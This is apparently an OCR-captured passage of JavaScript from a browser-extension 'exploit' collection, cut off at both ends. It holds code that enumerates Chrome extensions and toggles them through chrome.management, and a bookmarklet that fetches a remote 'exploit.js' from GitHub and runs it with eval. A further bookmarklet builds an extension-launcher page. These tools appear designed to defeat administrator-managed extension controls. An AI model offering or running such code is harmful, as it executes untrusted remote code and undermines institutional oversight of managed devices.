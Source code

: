   background-color: #1e1e1e;
  transition: .4s;
  border-radius: 50%;
}
input:checked + span {
  background-color: #bb86fc;
}
input:focus + span {
  box-shadow: 0 0 1px #2196F3;
}
input:checked + span:before {
  transform: translateX(17px);
}
`;

chrome.management.getAll(extensions => {
    const table = document.createElement("table");
    for (const {id, enabled, name, installType} of extensions) {
        const row = table.appendChild(document.createElement("tr"));
        const label = row
            .appendChild(document.createElement("td"))
            .appendChild(document.createElement("label"));

        const input = label.appendChild(document.createElement("input"));
        input.type = "checkbox";
        input.checked = enabled;
        input.addEventListener("change", () => {
            chrome.management.setEnabled(id, input.checked);
        });

        label.appendChild(document.createElement("span"));
        row.appendChild(document.createElement("td")).innerText = name;
        row.appendChild(document.createElement("td")).innerText = id;
        row.appendChild(document.createElement("td")).innerText = installType;
    }
    document.body.replaceChildren(table);
 
});

javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
javascript: document.write(
  "<center><head><h1>Extension Launcher </h1></head></center><center><h3>Instructions: Put in the id of the extension, the icon of the extension, and the name of the extension</h3></center><center><br><input  id='icon' placeholder='Put Extension Icon here'></br></center><center><br><input id='name' placeholder='Put name here'></br></center><center><br><input id='extension' maxlength='32' placeholder='Put extension id here'></br></center><center><br><button id='submit'>Download</button></br></center>\n<style> textarea{border-radius: 25px; margin: 1 auto;margin-center: auto;margin-center: auto; text-align: center; align: center; display:inline-block;height:400px}*{box-sizing:border-box}body{padding:13px;font-size:110%;color:#fff;background-color:#2e2e31}h1{text-align:center;font-size:70px}h2{text-align:left;font-size:175%}button,input,pre,select,textarea{border-radius: 21px; color:#000;font-size:15px}h1,h2,h3,h4,button,label,p,select{font-family:Roboto,sans-serif}hr{border:none;border-bottom:3px solid #fff}input,kbd,pre,textarea{font-family:monospace;border:none}input,select,textarea{background-color:#fff;border-radius:25px; padding:13px 17px;border:none}button,input{background-color:#fff;padding:13px 100px;margin:20 5px 5px 0}input{width:600px;border-radius:25px}textarea{white-space:pre;float:center;width:60%;border-radius:25px; 0 0 10px;resize:none;background-color:#99edc3;margin-bottom:15px}pre{border-radius:25; 10px 10px 0;padding:13px;float:right;margin:0 0 25px;width:40%;overflow-y:scroll;word-break:break-all;white-space:pre-line;background-color:#1c8e40}button{border:none;border-radius:25px; cursor:pointer;transition:filter 250ms}button:hover{filter:brightness(.8)}.gg{background-color:#99edc3}a{color:#99edc3;transition:color 250ms}a:hover{color:#1c8e40}</style> "
),
  document.getElementById("submit").addEventListener(
    "click",
    function () {
      var empty = document.getElementById("extension").value;
      if (empty == "") {